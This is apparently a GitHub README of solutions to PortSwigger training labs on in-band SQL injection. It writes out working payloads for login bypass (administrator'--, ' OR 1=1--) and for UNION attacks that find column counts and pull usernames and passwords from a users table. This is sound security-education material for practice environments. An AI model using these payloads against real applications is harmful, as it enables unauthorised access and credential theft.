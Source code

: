 # In-Band SQL Injection
## Summary
- [Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab2: SQL injection vulnerability allowing login bypass](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab2-sql-injection-vulnerability-allowing-login-bypass)
- [SQL injection UNION attacks](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#sql-injection-union-attacks)
	- [Lab3: SQL injection UNION attack, determining the number of columns returned by the query](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
	- [Lab4: SQL injection UNION attack, finding a column containing text](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab4-sql-injection-union-attack-finding-a-column-containing-text)
	- [Lab5: SQL injection UNION attack, retrieving data from other tables](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab5-sql-injection-union-attack-retrieving-data-from-other-tables)
	- [Lab6: SQL injection UNION attack, retrieving multiple values in a single column](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab6-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)

## `Notice:` I suggest being familiar with SQL before reading the labs solutions.

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- In the first, If we set this specific character `'`, the server will reply with `Internal Server Error`.
- Because when we will set it, the query in the backend will be like that :

```SQL
SELECT * FROM products WHERE category = ''' AND released = 1
```
- But we can use some tricks to inject this parameter.

```
category=any_category' OR 1=1--
category=' OR 1=1--
```
- Here, we terminated the single quotes of category parameter.
- And we used an `OR` logical operator and the equation of `1=1`, and this equation will always be true, so now we don’t have to know category as whatever be the category if we set or not.
- After that, we added the comment sequence `--` causes the remainder of the query to be ignored.
- So the query will show all category items and will be like that:

```SQL
SELECT * FROM products WHERE category = 'any_category' OR 1=1--' AND released = 1
```
> `Note:` Some servers block the comment symbols as `#` and `--`, so we can use the condition with the single quotes like that:
```
category=' OR '1'='1
```
-----------------------------------------------------------------------

### Lab2: SQL injection vulnerability allowing login bypass
- Many applications that implement a forms-based login function use a database to store user credentials and perform a simple SQL query to validate each login attempt like this query:

```SQL
SELECT * FROM users WHERE username = 'admin' AND password = 'admin'
```
- Try injecting this payload.

```
username=administrator'--
```
- Again, When we set `--`, it will ignore the remainder of the query and the password check is bypassed.
- It is called `subverting or altering application logic`.
- The query will be like that after injecting in the backend:

```SQL
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
##### Take note for another solution:
- Suppose that the attacker does not know the administrator’s username. In most applications, the first account in the database is an administrative user, because this account normally is created manually and then is used to generate all other accounts via the application.
- So we will log in as the first user in the database who is the administrator by supplying this as input to the username parameter:

```
username=' OR 1=1--
```
- The query will be like that and will let you log in as the first user who is the `administrator` and also the password check is bypassed.

```SQL
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

-----------------------------------------------------------------------
## SQL injection UNION attacks
### Lab3: SQL injection UNION attack, determining the number of columns returned by the query
>  `Note:` To combine two `select` statements with the `UNION`  operator:
>  1. We must return the same number of columns in the 2 `select` statements.
>  2. The 2 queries result must have the same or compatible data types, appearing in the same order.

- So one of the most common ways to detect the number of columns in the select statement is using the `NULL` values. 
- There is another way with using the `order by clause`.
- But we will use the first way because of the `NULL` value can be converted to any data type.
- Here, when I tried to test the number of columns, I got an error: `Internal server error`.
 
```
category='union select null--
category='union select null,null--
```
 - But when I tried three values of `NULL`, the injected query succeeded.
 
```
category='union select null,null,null--
```

-----------------------------------------------------------------------

### Lab4: SQL injection UNION attack, finding a column containing text

- As usual in the first, I tried to identify a number of columns, and I detected there are three columns combined in the query when I injected the `UNION` operator.

```
category='union select null,null,null--
```
- The second step I want to identify the data type of the columns, but I will focus on the string data because the important and interesting data will be in the string columns.
- So I tried to set string data in the first column, and when it will be combined with the first column in the query of the application it will return an error if the results are not compatible with the same data types.
- Here, I got an error because the first column is not from the string data type.

```
' union select 'VlA8XYl',null,null--
```
- But on the second try, the payload is interpreted successfully, and the second column returned data from the `string` data type.  

```
' union select null,'VlA8XYl',null--
```

-----------------------------------------------------------------------

### Lab5: SQL injection UNION attack, retrieving data from other tables
1. Testing number of columns:

```
category=' union select null,null--
```
2. Testing which column holds data with `string` data type:

```
category=' union select 'hello',null--
```
- **In real-world scenarios, you must know the type and version of the database software, and the names of the tables and columns containing the data you want to access, in the next labs we will know how to know that, but in this lab description, we know the name of the table and the columns which we will retrieve.**
3. And the last phase is retrieving the data from the `user` table:

```
category=' union select username, password from users--
```
- Here we can see the results from my injected query, and now we can log in as the `administrator` user.

![lab5.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab5.png)

-----------------------------------------------------------------------
### Lab6: SQL injection UNION attack, retrieving multiple values in a single column
- We will try to detect the number of columns and data type of each column as usual.

```
1. category=' union select null,null--
2. category=' union select null,'hello'--
```
- I detected the second column is a `string`, but how we can retrieve the username and password when we have just one column receive string data!!
- And if we tried to retrieve the data with this query it will make an error:
```
category=' union select username, password from users--
```
- Because the first column is not string data type.
- The solution for this problem is combining the results of the 2 columns in one column by concatenating them with `||`.
- You can use `||` to concatenate strings in the oracle database, but it is different in the other database types.
- Don't worry, in the next labs you will know how to detect the type of database to identify your syntax and the methodology to deal with it.
```
category=' union select null, username ||'~'|| password from users--
```
- `Note:` You can set any specific character to separate columns other than `~`.

![lab6.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6.png)

- Or you can make something like that by concatenating😃
```
category=' union select null, 'User: '|| username ||' and password: '|| password from users--
```

![lab6_another_form.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6_another_form.png)
